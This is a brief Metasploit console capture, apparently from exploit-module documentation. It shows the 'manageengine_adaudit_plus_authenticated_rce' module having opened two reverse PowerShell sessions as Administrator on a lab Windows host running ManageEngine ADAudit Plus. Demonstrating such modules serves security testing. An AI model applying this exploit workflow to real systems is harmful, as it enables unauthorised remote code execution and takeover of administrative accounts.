 ```
----                                          
C:\Program Files\ManageEngine\ADAudit Plus\bin


PS C:\Program Files\ManageEngine\ADAudit Plus\bin> ^Z
Background session 2? [y/N]  y
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > sessions

Active sessions
===============

  Id  Name  Type                Information                      Connection
  --  ----  ----                -----------                      ----------
  1         powershell windows  Administrator @ WIN-BRSHGJGIDFM  192.168.204.128:4444 -> 192.168.204.136:53464 (192.168.204.136)
  2         powershell windows  Administrator @ WIN-BRSHGJGIDFM  192.168.204.128:4444 -> 192.168.204.136:53465 (192.168.204.136)

msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > 
```
